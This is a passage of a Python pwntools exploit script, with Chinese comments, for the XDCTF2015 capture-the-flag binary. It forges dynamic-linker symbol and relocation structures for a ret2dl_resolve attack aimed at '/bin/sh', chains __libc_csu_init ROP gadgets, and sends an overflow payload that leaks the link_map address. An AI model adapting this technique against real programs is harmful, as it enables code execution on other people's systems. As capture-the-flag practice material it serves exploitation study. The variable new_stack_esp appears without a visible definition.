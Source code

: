 ```python
.text:000000000040079C                 pop     r12          //read_got
.text:000000000040079E                 pop     r13          //read1参
.text:00000000004007A0                 pop     r14          //read2参
.text:00000000004007A2                 pop     r15          //read3参
.text:00000000004007A4                 retn
.text:00000000004007A4 ; } // starts at 400740
.text:00000000004007A4 __libc_csu_init endp
'''
libc_csu_init_gadget_start1_addr=0x40079A
libc_csu_init_gadget_start2_addr=0x400780

read_plt_addr=elf.plt['read']
write_got_addr=elf.got['write']
new_stack=bss_addr+0x200
pop_rbp=0x4005b8
pop_rdi=0x4007a3
pop_rsi_r15=0x4007a1
leave=0x40066c
main_addr=elf.sym['main']
vuln_addr=elf.sym['vuln']
jmp_dl_runtime_resolve_addr=0x000400500# plt0

rela_plt_start_addr=elf.get_section_by_name('.rela.plt').header.sh_addr
real_dynstr_start_addr=elf.get_section_by_name('.dynstr').header.sh_addr
real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr
# 伪造sym
fake_st_name=new_stack+len('/bin/sh\x00')-real_dynstr_start_addr
fake_st_info=0x12
fake_st_other=0x0
fake_st_shndx=0x0
fake_st_value=0x0
fake_st_size=0x0
fake_write_ELF64_Sym=p32(fake_st_name)+p8(fake_st_info)+p8(fake_st_other)+p16(fake_st_shndx)+p64(fake_st_value)+p64(fake_st_size)
fake_write_ELF64_Sym_start_addr=new_stack+0x10  #ELF64_Sym起始地址
align=0x18-((fake_write_ELF64_Sym_start_addr-real_dynsym_start_addr)&0xf)# 对齐
fake_write_ELF64_Sym_start_addr+=align
log.info(hex(fake_write_ELF64_Sym_start_addr))
print align

# 伪造rel
fake_r_offset=elf.got['write']
dynsym_index=(fake_write_ELF64_Sym_start_addr-real_dynsym_start_addr)/0x18  #32位的是0x10
print dynsym_index
fake_r_info=dynsym_index<<32 | 7
fake_r_addend=0x0
fake_write_Elf64_Rela=p64(fake_r_offset)+p64(fake_r_info)+p64(fake_r_addend)
fake_write_Elf64_Rela_start_addr=new_stack_esp+0x10+len(fake_write_ELF64_Sym)+align
log.info(hex(fake_write_Elf64_Rela_start_addr))
# 伪造fake_reloc
fake_reloc_arg=(fake_write_Elf64_Rela_start_addr-rela_plt_start_addr)/0x18

# 改掉linkmap_addr+0x1c8的位置置零
####################################################
write_got_addr=elf.got['write']
read_got_addr=elf.got['read']
payload0=120*'a'
payload0+=p64(libc_csu_init_gadget_start1_addr)+p64(0)+p64(1)+p64(write_got_addr)+p64(1)+p64(0x601008)+p64(0x8)
payload0+=p64(libc_csu_init_gadget_start2_addr)+p64(0xdeadbeef)*7+p64(main_addr)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.send(payload0)# leak linkmapaddr

```